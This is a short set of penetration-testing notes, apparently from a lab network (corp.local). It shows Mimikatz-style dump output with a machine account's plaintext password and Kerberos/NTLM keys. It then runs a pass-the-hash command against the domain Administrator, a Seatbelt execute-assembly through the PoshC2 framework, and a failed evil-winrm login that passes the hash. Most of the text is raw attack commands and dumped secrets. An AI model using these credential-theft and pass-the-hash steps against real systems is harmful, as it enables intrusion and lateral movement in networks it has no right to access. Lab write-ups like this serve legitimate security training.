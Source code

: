 ```powershell
Domain            : Window Manager
Logon Server      : (null)
Logon Time        : 10/5/2023 9:39:07 AM
SID               : S-1-5-90-0-1

	 * Username : MS01$
	 * Domain   : corp.local
	 * Password : 4G27%CXs#vdBm&ZyC@OA4@[H3%F;fksT[tUqML/4AYDJ^(sxXUqQWdT"!WdPj$HC(Pj1d0r75fV<FhyE$u3lAT7@CGiiP-si[D[jzHxtsi40iw ;]H6jh)Bm
	 * Key List :
	   aes256_hmac       2144003ad888aea454328baedf99d3aff8b4b340c74159390ec7599c568ad2b8
	   aes128_hmac       187ef7ac1823f7bcd76940ea16521782
	   rc4_hmac_nt       b0008678126a9a7143961c96161725a4
	   rc4_hmac_old      b0008678126a9a7143961c96161725a4
	   rc4_md4           b0008678126a9a7143961c96161725a4
	   rc4_hmac_nt_exp   b0008678126a9a7143961c96161725a4
	   rc4_hmac_old_exp  b0008678126a9a7143961c96161725a4

Authentication Id : 0 ; 66237 (00000000:000102bd)
Session           : Interactive from 1
User Name         : DWM-1
Domain            : Window Manager
Logon Server      : (null)
Logon Time        : 10/5/2023 9:39:07 AM
SID               : S-1-5-90-0-1

	 * Username : MS01$
	 * Domain   : corp.local
	 * Password : 4G27%CXs#vdBm&ZyC@OA4@[H3%F;fksT[tUqML/4AYDJ^(sxXUqQWdT"!WdPj$HC(Pj1d0r75fV<FhyE$u3lAT7@CGiiP-si[D[jzHxtsi40iw ;]H6jh)Bm
	 * Key List :
	   aes256_hmac       2144003ad888aea454328baedf99d3aff8b4b340c74159390ec7599c568ad2b8
	   aes128_hmac       187ef7ac1823f7bcd76940ea16521782
	   rc4_hmac_nt       b0008678126a9a7143961c96161725a4
	   rc4_hmac_old      b0008678126a9a7143961c96161725a4
	   rc4_md4           b0008678126a9a7143961c96161725a4
	   rc4_hmac_nt_exp   b0008678126a9a7143961c96161725a4
	   rc4_hmac_old_exp  b0008678126a9a7143961c96161725a4

```
Going to try to Pass the hash to administrator
```powershell
pth CORP\Administrator 7facdc498ed1680c4fd1448319a8c04f
```
/usr/share/poshc2/resources/modules/Seatbelt.exe

execute-assembly /usr/share/poshc2/resources/modules/Seatbelt.exe -group=system





Tried to evil-winrm wasnt able to.
```powershell
[root💀~] [10.10.14.39] [2023-10-06 14:33:09] 
 └─╼ # proxychains evil-winrm -i 172.16.1.30 -u CORP\Administrator -H 7facdc498ed1680c4fd1448319a8c04f
 Error: An error of type WinRM::WinRMAuthorizationError happened, message is WinRM::WinRMAuthorizationError
                                        
Error: Exiting with code 1

```
